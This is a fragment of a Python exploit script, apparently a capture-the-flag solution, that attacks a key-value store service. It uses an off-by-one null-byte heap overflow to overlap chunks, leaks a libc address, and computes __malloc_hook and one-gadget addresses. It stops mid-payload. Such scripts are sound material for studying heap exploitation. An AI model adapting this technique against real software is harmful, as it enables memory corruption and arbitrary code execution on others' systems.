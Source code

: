 ```python
def func_DUMP():
    s.recvuntil("PROMPT: Enter command:\n")
    s.sendline("DUMP")

def func_DEL(key):
    s.recvuntil("PROMPT: Enter command:\n")
    s.sendline("DEL")

    s.recvuntil("PROMPT: Enter row key:\n")
    s.sendline(key)

func_PUT("1", "A"*0x38)
func_DEL("th3fl4g")
func_DEL("1")

func_PUT("1", "A"*0x18)
func_DEL("1")

payload = "A"*0x1f0
payload += p64(0x200)
func_PUT("B", payload.ljust(0x208, "A"))
func_PUT("C", "A"*0x88)

func_DEL("B")
func_DEL("\x00"*0x18) # off by one

func_PUT("b1", "A"*0x88)
func_PUT("b2", "A"*0x68)
func_PUT("libc_leak", "A"*0xf8)

func_DEL("b1")
func_DEL("C")

payload = "A"*0x88
payload += p64(0x71) # b2 -> buf -> size
payload += "A"*0x68
func_PUT("A", payload)

func_DUMP()

while 1:
    dump = s.recvuntil("bytes\n").split("[")[1].split("]")

    if(dump[0] == "A" or dump[0] == "b2"):
        continue

    libc_leak = int(dump[1].split(" ")[1])
    break

libc_base = libc_leak - libc_off
libc_malloc_hook = libc_base + malloc_hook_off
libc_one = libc_base + one_off

print
log.info("libc_base : " + hex(libc_base))
log.info("libc_malloc_hook : " + hex(libc_malloc_hook))
log.info("libc_one : " + hex(libc_one))
print

func_DEL("A")
func_DEL("b2")

payload = "A"*0x88
```